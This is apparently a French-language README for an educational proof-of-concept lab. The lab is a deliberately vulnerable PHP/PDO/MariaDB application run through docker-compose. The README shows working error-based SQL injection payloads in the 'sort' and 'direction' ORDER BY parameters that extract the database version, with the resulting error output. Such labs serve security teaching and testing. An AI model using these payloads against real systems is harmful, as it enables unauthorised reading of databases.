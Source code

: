 # PoC - Exploitation des injections SQL dans les clauses ORDER BY

## Installation

```
$ docker-compose build
$ docker-compose up -d
```

![image](https://github.com/user-attachments/assets/39419bea-36df-4182-a049-6e86d2c2a09a)

## Description

L'application, développée en PHP avec l'extension PDO, permet de rechercher des utilisateurs présents dans une base de données MySQL (Mariadb). Toutefois, les paramètres "sort" et "direction" utilisés au sein de la clause `ORDER BY` lors de l'appel à l'API sont sensibles aux injections SQL.

## Exploitation

Récupération de la version du système de base de données via le paramètre "sort" :

```sql
/users?search=&sort=username OR (SELECT 1 FROM(SELECT COUNT(*),CONCAT(CHAR(126),CAST(VERSION() AS NCHAR),CHAR(126),0x3a,floor(rand(0)*2))x FROM INFORMATION_SCHEMA.PLUGINS GROUP BY x)a)&direction=ASC&page=1&maxPerPage=5
```

```
Error: SQLSTATE[23000]: Integrity constraint violation: 1062 Duplicate entry '~10.11.6-MariaDB-1:10.11.6+maria~ubu2204~:1' for key 'group_key'
```

Récupération de la version du système de base de données via le paramètre "direction" :

```sql
/users?search=&sort=username&direction=ASC,(SELECT 1 FROM(SELECT COUNT(*),CONCAT(CHAR(126),CAST(VERSION() AS NCHAR),CHAR(126),0x3a,floor(rand(0)*2))x FROM INFORMATION_SCHEMA.PLUGINS GROUP BY x)a)&page=1&maxPerPage=5
```

```
Error: SQLSTATE[23000]: Integrity constraint violation: 1062 Duplicate entry '~10.11.6-MariaDB-1:10.11.6+maria~ubu2204~:1' for key 'group_key'
```

## Démo

![](https://github.com/Sharpforce/cybersecurity-code/blob/master/exploitation-des-injections-sql-au-sein-de-la-clause-order-by/PHP-PDO-et-MySQL/demo/demo.gif)

## Disclaimer

Cet outil est destiné uniquement à des fins éducatives et doit être utilisé uniquement dans des environnements de tests de pénétration autorisés. L'accès ou l'utilisation non autorisés de systèmes que vous ne possédez pas est illégal. L'auteur n'est pas responsable de toute utilisation abusive de cet outil.

## License

Ce projet est sous licence MIT.